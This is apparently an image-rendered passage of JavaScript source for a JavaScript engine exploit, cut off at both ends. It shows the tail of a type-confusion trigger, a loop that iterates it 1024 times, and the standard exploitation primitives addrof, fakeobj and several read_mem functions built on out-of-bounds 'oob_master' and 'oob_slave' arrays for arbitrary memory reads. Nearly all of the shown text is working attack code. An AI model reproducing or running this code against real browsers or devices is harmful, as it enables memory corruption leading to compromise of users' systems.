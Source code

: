         impl.a[5] = l2;
        target.c = oob_master;
        impl.a[4] = s1;
        impl.a[5] = s2;
        impl.a = target;
        print([l1, l2, s1, s2]);
        throw "exploit fucking finished";
    }
}

try
{
    for(var _ = 0; _ < 1024; _++)
    {
        var impl = create_impl(); //JSString::toIdentifier checks some bits in the type-confused structure ID, so iterate over those
        var s = {a: impl};
        trigger(s);
    }
}
catch(e)
{
    print("error: "+e);
}

function i48_put(x, a) {
  a[4] = x | 0;
  a[5] = (x / 4294967296) | 0;
}
function i48_get(a) {
  return a[4] + a[5] * 4294967296;
}
function addrof(x) {
  leaker_obj.a = x;
  return i48_get(leaker_arr);
}
function fakeobj(x) {
  i48_put(x, leaker_arr);
  return leaker_obj.a;
}
function read_mem_setup(p, sz) {
  i48_put(p, oob_master);
  oob_master[6] = sz;
}
function read_mem(p, sz) {
  read_mem_setup(p, sz);
  var arr = [];
  for (var i = 0; i < sz; i++)
    arr.push(oob_slave[i]);
  return arr;
}
function read_mem_s(p, sz) {
  read_mem_setup(p, sz);
  return "" + oob_slave;
}
function read_mem_b(p, sz) {
  read_mem_setup(p, sz);
  var b = new Uint8Array(sz);
  b.set(oob_slave);
  return b;
}
function read_mem_as_string(p, sz) {
  var x = read_mem_b(p, sz);
  var ans = '';